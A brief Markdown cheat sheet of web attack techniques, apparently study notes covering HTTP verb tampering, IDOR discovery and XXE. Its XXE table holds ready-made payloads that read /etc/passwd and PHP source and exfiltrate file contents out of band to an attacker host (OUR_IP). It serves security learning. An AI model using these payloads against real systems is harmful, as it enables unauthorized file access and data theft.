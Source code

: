 ## HTTP Verb Tampering

`HTTP Method`

- `HEAD`
- `PUT`
- `DELETE`
- `OPTIONS`
- `PATCH`

| **Command**  | **Description**           |
| ------------ | ------------------------- |
| `-X OPTIONS` | Set HTTP Method with Curl |

## IDOR

`Identify IDORS`

- In `URL parameters & APIs`
- In `AJAX Calls`
- By `understanding reference hashing/encoding`
- By `comparing user roles`

| **Command** | **Description**        |
| ----------- | ---------------------- |
| `md5sum`    | MD5 hash a string      |
| `base64`    | Base64 encode a string |

## XXE

| **Code**                                                                           | **Description**                                |
| ---------------------------------------------------------------------------------- | ---------------------------------------------- |
| `<!ENTITY xxe SYSTEM "http://localhost/email.dtd">`                                | Define External Entity to a URL                |
| `<!ENTITY xxe SYSTEM "file:///etc/passwd">`                                        | Define External Entity to a file path          |
| `<!ENTITY company SYSTEM "php://filter/convert.base64-encode/resource=index.php">` | Read PHP source code with base64 encode filter |
| `<!ENTITY % error "<!ENTITY content SYSTEM '%nonExistingEntity;/%file;'>">`        | Reading a file through a PHP error             |
| `<!ENTITY % oob "<!ENTITY content SYSTEM 'http://OUR_IP:8000/?content=%file;'>">`  | Reading a file OOB exfiltration                |
